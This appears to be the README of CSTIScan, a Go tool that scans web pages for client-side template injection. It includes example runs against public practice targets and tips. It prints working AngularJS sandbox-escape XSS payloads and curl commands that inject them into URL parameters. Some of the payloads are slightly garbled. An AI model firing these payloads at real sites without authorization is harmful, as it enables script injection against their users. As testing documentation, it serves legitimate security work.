 
<p align="center">
   <img src="[image1.png](https://github.com/user-attachments/assets/32f30552-0baf-436b-9e5f-b0cef7c0282a)" width="100" height="100">
</p>

# 🕵️‍♂️ CSTIScan: Client-Side Template Injection (SISTEE) Scanner

CSTIScan is a powerful tool designed to identify and exploit potential Client-Side Template Injection (CSTI) vulnerabilities in web applications. CSTI occurs when user input is incorrectly handled and inserted into client-side templates, potentially leading to cross-site scripting (XSS) and other security issues.

## 🚀 Features

- 🔍 Automated scanning of single or multiple URLs
- 🧪 Tests various CSTI payloads
- 📊 Detailed vulnerability reporting
- 🛠️ Proof of Concept (PoC) generation
- 📈 Progress bar for multiple URL scans
- 🎨 Colorized console output

## 📦 Installation

1. Ensure you have Go installed on your system.
2. Clone this repository:

```
git clone https://gitlab.com/-/ide/project/sprocketsecurity/hackers/sistee
cd sistee
go mod init csti.go
go mod tidy
go build .
```


## 🔧 Usage

Public Firing Range: 

* AngularJS: [https://jsfiddle.net/2zs2yv7o/](https://jsfiddle.net/2zs2yv7o/)

* VueJS: [https://vue-client-side-template-injection-example.azu.now.sh/](https://vue-client-side-template-injection-example.azu.now.sh/)


### Help Menu

```
NAME:
   cstiscan - Scan for Client-Side Template Injection vulnerabilities

USAGE:
   cstiscan [global options] command [command options]

COMMANDS:
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --url value, -u value   Single URL to test
   --file value, -f value  File containing URLs to test
   --poc                   Output PoC details (default: false)
   --proof                 Output proof of vulnerable code (default: false)
   --help, -h              show help
```

### Example Run - Provide Proof

```
./csti.go --url https://jsfiddle.net/2zs2yv7o/ --proof
 100% |█████████████| (1/1, 1 it/s)        
URL: https://jsfiddle.net/2zs2yv7o/
Vulnerable: Yes
Details:
Potential CSTI with payload
Proof:
Payload reflection: {{7*7}}
Payload reflection: <%= 7*7 %>
Payload reflection: {{constructor.constructor('alert(1)')()}}
Payload reflection: {{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor)}}
Payload reflection: {{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;'alert(1)'}}
--------------------------------------------------------------------------------
Results saved to csti_results.json
```

### Example Run - Provide PoC

```
./csti.go --url https://jsfiddle.net/2zs2yv7o/ --poc
 100% |█████████████| (1/1, 1 it/s)        
URL: https://jsfiddle.net/2zs2yv7o/
Vulnerable: Yes
Details:
Potential CSTI with payload
PoC:
curl 'https://jsfiddle.net/2zs2yv7o/?test=%7B%7B7*7%7D%7D'
curl 'https://jsfiddle.net/2zs2yv7o/?test=${7*7}'
curl 'https://jsfiddle.net/2zs2yv7o/?test=<%= 7*7 %>'
curl 'https://jsfiddle.net/2zs2yv7o/?test=%7B%7Bconstructor.constructor('alert(1)')()%7D%7D'
curl 'https://jsfiddle.net/2zs2yv7o/?test=%7B%7BtoString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor)%7D%7D'
curl 'https://jsfiddle.net/2zs2yv7o/?test=%7B%7B{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;'alert(1)'%7D%7D'
--------------------------------------------------------------------------------
Results saved to csti_results.json
```

### Single URL Scan
```
./cstiscan --url https://example.com
```

### Multiple URL Scan
```
./cstiscan --file urls.txt
```

### Include PoC Commands
```
./cstiscan --url https://example.com --poc
```

### Include Proof of Vulnerable Code
```
./cstiscan --url https://example.com --proof
```

## 🔬 Methodology

### 1. Automated Scanning
The tool performs the following steps:
- Fetches the target URL(s)
- Analyzes the HTML content for potential CSTI vectors
- Tests various CSTI payloads
- Generates a detailed report of findings

### 2. Manual Verification
For each potentially vulnerable URL:
1. Open the URL in a browser
2. Open the browser's developer console
3. Inject test payloads into user input fields or URL parameters
4. Check for unexpected behavior or script execution

### 3. CSTI Payload Testing
The tool tests various payloads, including:

```
{{77}}
${77}
<%= 7*7 %>
{{constructor.constructor('alert(1)')()}}
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor)}}
{{{}[{toString:[].join,length:1,0:'proto'}].assign=[].join;'alert(1)'}}
```

### 4. Identifying Vulnerable Templates
The scanner looks for patterns that might indicate template usage, such as:
- `{{ }}` (Mustache, Handlebars, AngularJS, Vue.js)
- `${ }` (ES6 template literals, some frameworks)
- `<%= %>` (EJS, Underscore.js)

## 📊 Results

- The tool outputs a table with vulnerable URLs, details, and optional PoC commands
- For manual testing, document:
  - The URL tested
  - The payload used
  - The observed behavior (e.g., unexpected script execution, template evaluation)
- Results are saved in JSON format for further analysis

## 💡 Tips & Tricks

1. **URL Parameter Testing**: Try injecting payloads via URL parameters:

```
https://target.com/page?param={{7*7}}
```

2. **Combine with XSS**: CSTI can often lead to XSS, test with alert functions:

```
{{constructor.constructor('alert("CSTI vulnerability")')()}}
```

3. **Check for Different Template Engines**: Different frameworks use different syntax, test various formats:

* `{{ }}` for Mustache, Handlebars, AngularJS, Vue.js
* `${ }` for ES6 template literals
* `<%= %>` for EJS, Underscore.js

4. **Prototype Pollution via CSTI**: Some payloads can lead to prototype pollution:

```
{{{}[{toString:[].join,length:1,0:'proto'}].assign=[].join;'alert(1)'}}
```
